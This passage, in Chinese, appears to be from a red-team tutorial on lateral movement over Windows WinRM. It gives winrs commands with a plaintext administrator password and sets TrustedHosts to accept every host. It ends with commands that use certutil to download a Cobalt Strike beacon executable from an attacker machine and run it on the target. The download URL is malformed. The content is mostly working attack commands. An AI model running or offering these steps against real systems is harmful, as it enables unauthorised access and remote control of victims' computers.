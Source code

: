### [](#%E5%BC%80%E5%90%AF%E6%94%BB%E5%87%BB "开启攻击")开启攻击[](#%E5%BC%80%E5%90%AF%E6%94%BB%E5%87%BB)

1.  攻击机开启：

```css
winrm quickconfig -q
```

可通过`cs内置端口`扫描`5985`来判断目标主机是否开启 WinRM

[![](assets/1702372940-ac0ae149e388cfaa77c35e5c2e2d9ee2.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/45.png)

使用`ps`命令查看开启情况

```bash
powershell Get-WmiObject -Class win32_service | Where-Object {$_.name -like "WinRM"}
```

**执行命令**

```bash
winrs -r:192.168.91.178 -u:192.168.91.178\administrator -p:Abcd1234!@#$ whoami
```

> 远程连接时可能会遇到以下错误

```plain
错误编号：-2133108526
Winrs error:WinRM 客户端无法处理该请求。可以在下列条件下将默认身份验证与 IP 地址结合使用：传输为 HTTPS 或目标位于 TrustedHosts 列表中，并且提供了显式凭据。使用 winrm.cmd 配置 TrustedHosts。请注意，TrustedHosts 列表中的计算机可能未经过身份验证。有关如何设置 TrustedHosts 的详细信息，请运行以下命令：winrm help config。
```

在攻击机上执行下面这条命令，设置为信任所有主机，再去连接即可

```bash
winrm set winrm/config/Client @{TrustedHosts="*"}
```

上线 CS:

```plain
winrs -r:192.168.91.178 -u:192.168.91.178\administrator -p:Abcd1234!@#$ "cmd.exe /c certutil -urlcache -split -f http://192.168.91.1beacon.exe c:/beacon.exe"
winrs -r:192.168.91.178 -u:192.168.91.178\administrator -p:Abcd1234!@#$ "cmd.exe /c c:/beacon.exe"
```
